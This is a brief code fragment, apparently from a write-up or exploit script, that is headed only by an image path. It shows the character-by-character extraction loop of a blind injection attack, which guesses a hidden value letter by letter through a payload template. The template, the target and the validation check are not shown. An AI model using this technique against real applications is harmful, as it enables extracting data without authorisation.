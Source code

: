 ```
while True:
    for letter in letters:
        load = payload.format(index, result + letter)
        if valid_payload(load):
            result += letter
            break
    print(f"[*] result: {result}")
    index += 1

```
